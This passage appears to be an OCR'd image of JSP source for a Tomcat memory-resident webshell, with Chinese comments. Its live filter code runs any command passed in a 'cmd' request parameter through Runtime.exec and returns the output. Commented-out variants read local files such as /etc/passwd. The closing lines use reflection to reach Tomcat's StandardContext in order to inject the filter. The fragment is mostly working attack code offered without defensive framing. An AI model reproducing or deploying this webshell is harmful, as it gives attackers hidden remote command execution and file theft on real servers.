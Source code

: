 ```jsp
//            response.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
//            // 3. 读取文件并写入响应流
//            try (FileInputStream fis = new FileInputStream(file);
//                 OutputStream out = response.getOutputStream()) {
//                byte[] buffer = new byte[4096];
//                int bytesRead;
//                while ((bytesRead = fis.read(buffer)) != -1) {
//                    out.write(buffer, 0, bytesRead);
//                }
//                out.flush();
//            } catch (IOException e) {
//                System.err.println("文件传输失败: " + e.getMessage());
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "文件传输失败");
//            }

////读文件 ?cmd=file:///etc/passwd or 列目录 ?cmd=file:///
//            final URL url = new URL(cmd);
//            final BufferedReader in = new BufferedReader(new
//                    InputStreamReader(url.openStream()));
//            StringBuilder stringBuilder = new StringBuilder();
//            String line;
//            while ((line = in.readLine()) != null) {
//                stringBuilder.append(line + '\n');
//            }
//            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

//RCE ?cmd=whoami
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
        }

        public void destroy() {
        }
    }
%>

<%
    //获取StandardContext
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) request.getServletContext();
    Field applicationContextFacadeField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
```